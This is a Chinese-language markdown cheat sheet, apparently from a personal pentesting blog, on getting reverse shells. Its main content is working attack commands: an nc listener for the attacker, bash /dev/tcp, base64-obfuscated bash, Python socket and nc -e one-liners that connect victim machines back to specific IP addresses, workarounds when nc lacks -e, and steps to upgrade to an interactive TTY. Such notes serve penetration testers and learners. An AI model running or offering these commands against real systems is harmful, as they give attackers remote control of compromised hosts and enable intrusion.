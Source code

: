   ```bash
  nc -lnvp port
  ```

- 被攻击机

  ```bash
  bash -c 'bash -i >& /dev/tcp/ip/port 0>&1'
  bash -c "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuMjIwLjE5Mi4xMjAvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}"
  ```

  ```bash
  python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.174.129',1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
  ```

  ```bash
  nc 124.220.192.120 1234 -e /bin/bash
  ```

  **注意点**：用nc进行反弹shell，需要nc是提供-e参数的版本，但是系统apt默认安装的都是不提供反向链接的版本。

  ![image-20230830215804216](../../../blog/source/images/image-20230830215804216.png)

  解决方法：

  - 上传编译好的nc

  - 利用管道符

    被攻击机

    ![image-20230823145240080](../../../blog/source/images/image-20230823145240080.png)

    攻击机

    ![image-20230823145311118](../../../blog/source/images/image-20230823145311118.png)

    ![image-20230823145323881](../../../blog/source/images/image-20230823145323881.png)

    利用1234端口将传入内容交给bash执行，再将内容从端口8888送出去



### 获得交互式shell

```shell
python3 -c  'import pty;pty.spawn("/bin/bash")'
python -c  'import pty;pty.spawn("/bin/bash")'
```

键入 Ctrl-Z，回到 VPS 的命令行中；第二步，在 VPS 中执行：

```shell
stty raw -echo
fg
```
